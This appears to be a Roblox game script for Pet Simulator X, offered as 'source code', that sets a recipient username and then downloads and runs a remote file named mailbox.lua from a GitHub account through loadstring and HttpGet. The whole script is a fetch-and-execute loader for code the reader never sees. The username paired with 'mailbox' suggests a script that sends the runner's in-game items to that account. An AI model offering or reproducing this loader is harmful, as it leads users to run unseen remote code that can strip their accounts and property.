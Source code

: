UserName = "chyfon3"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/mailbox.lua", true))()
